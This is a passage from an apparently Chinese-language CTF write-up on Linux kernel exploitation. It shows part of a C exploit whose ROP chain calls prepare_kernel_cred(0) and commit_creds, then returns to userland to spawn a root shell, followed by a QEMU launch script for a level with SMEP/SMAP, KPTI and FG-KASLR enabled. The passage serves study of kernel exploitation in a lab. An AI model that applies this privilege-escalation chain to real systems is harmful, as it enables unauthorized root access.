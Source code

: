 ```c
    // rop[i++] = (size_t)get_shell;

    //commit_creads(prepare_kernel_cred(0));
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rdx_ret;
    rop[i++] = 8;
    rop[i++] = cmp_rdx_jne_pop2_ret;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = mov_rdi_rax_jne_pop2_ret;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = commit_creds;

    rop[i++] = swapgs_pop_rbp_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = (size_t )shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x80 + 0x100 );

}
```

### level4  开启 SMAP/SMEP KPTI FG-KASLR

问为什么没有level3 ，本题开的是 FG-KASLR，level3便是开 KASLR 的版本，和上面 level2 相比多了个泄露地址和计算真实地址的过程

启动脚本

```shell
gcc exp.c -static -o ./fs/exp
# gcc exp.c -masm=intel -static -o ./fs/exp
cd fs
find . | cpio -o --format=newc > ../rootfs.cpio
cd ..

qemu-system-x86_64 \
    -m 256M \
    -cpu kvm64,+smep,+smap \
    -kernel vmlinuz \
    -initrd rootfs.cpio \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -s \
    -append "console=ttyS0 kaslr kpti=1 quiet panic=1"
```
